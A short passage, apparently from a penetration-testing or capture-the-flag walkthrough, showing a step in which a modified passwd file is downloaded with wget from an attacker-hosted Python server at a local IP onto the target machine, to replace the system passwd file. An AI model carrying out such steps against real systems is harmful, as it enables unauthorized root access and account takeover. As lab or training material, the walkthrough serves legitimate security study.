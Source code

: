 ![Python Server](Img/24_Python_server.png)

### Step 18: Downloading and Replacing `passwd`
- On the target machine, download the modified `passwd` file using `wget`:
```bash
wget http://192.168.141.137:8080/passwd
```